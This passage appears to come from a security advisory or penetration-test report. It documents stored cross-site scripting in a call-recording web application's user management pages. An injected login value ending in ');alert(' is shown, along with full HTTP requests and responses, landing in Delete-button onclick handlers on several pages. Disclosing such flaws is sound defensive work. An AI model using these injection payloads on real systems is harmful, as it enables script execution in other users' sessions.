org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&login2=test2x');alert('3l5h0pky&password2=&passwordVerify=&firstName=test2&lastName=&email=&phoneNumber=&value%28filter_1%29=-1&value%28conj_1%29=END&roleId=1&viewRoleId=&loginOriginal=test2&roleIdOriginal=1&ldapUserOriginal=SQL&phoneNumberOriginal=&userId=9&userRoleId=1&ldapOriginal=false
```

```http
HTTP/1.1 200
Date: Mon, 09 Mar 2026 14:35:44 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 23170

***TRUNCATED***
                <input type="button" class="button_delete"
                            value="Delete" onclick="setOnlyThis(9,'test2x&#39;);alert(&#39;3l5h0pky');"/>
***TRUNCATED***
```



5. Forward the request and observe that the payload is injected into the **onClick** event of the delete button. Click the delete button and observe that the malicious script executes.




### (7) | Stored XSS in Group View Page (/callrec/group.jsp)

6. The payload remains persistent and appears again when accessing the **Users** menu, which triggers requests to: **/callrec/group.jsp**

```http
GET /callrec/group.jsp?org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&viewRoleId=1 HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/index_group.jsp?viewRoleId=1
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```http
HTTP/1.1 200
Date: Mon, 09 Mar 2026 14:40:49 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 22843


***TRUNCATED***
                <input type="button" class="button_delete"
                            value="Delete" onclick="setOnlyThis(9,'test2x&#39;);alert(&#39;3l5h0pky');"/>
***TRUNCATED***
```




### (8) | Stored XSS in User Search Page (/callrec/userAuditView.do)

7. And in **/callrec/user_search.jsp** request

```http
GET /callrec/user_search.jsp?org.apache.struts.taglib.html.TOKEN=***TRUNCATED***&viewRoleId=1&username=&surname=&name=test2&email=&phone= HTTP/1.1
Host: example.local
Cookie: DWRSESSIONID=***TRUNCATED***; scroolY=0; JSESSIONID=***TRUNCATED***
Sec-Ch-Ua: "Not:A-Brand";v="99", "Microsoft Edge";v="145", "Chromium";v="145"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/145.0.0.0 Safari/537.36 Edg/145.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: frame
Referer: https://example.local/callrec/userEditAction.do
Accept-Encoding: gzip, deflate, br
Accept-Language: en-US,en;q=0.9
Priority: u=0, i
Connection: keep-alive
```

```http
HTTP/1.1 200
Date: Mon, 09 Mar 2026 14:48:20 GMT
Server: Apache
X-Frame-Options: SAMEORIGIN
X-Content-Type-Options: nosniff
X-XSS-Protection: 1; mode=block
Access-Control-Allow-Origin:
Access-Control-Allow-Methods: GET, POST, HEAD, OPTIONS, DELETE, PUT
Access-Control-Allow-Headers: Origin, Accept, X-Requested-With, Content-Type, Access-Control-Request-Method, Access-Control-Request-Headers
Access-Control-Max-Age: 1800
Content-Security-Policy: default-src 'self'; script-src 'self' 'unsafe-inline' 'unsafe-eval';img-src *; style-src * 'unsafe-inline';
Content-Type: text/html;charset=utf-8
Keep-Alive: timeout=5, max=100
Connection: Keep-Alive
Content-Length: 15238

***TRUNCATED***
                  <input type="button" class="button_delete"
                         value="Delete"
                         onclick="setOnlyThis(9,'test2x&#39;);alert(&#39;3l5h0pky');"/>
***TRUNCATED***
```


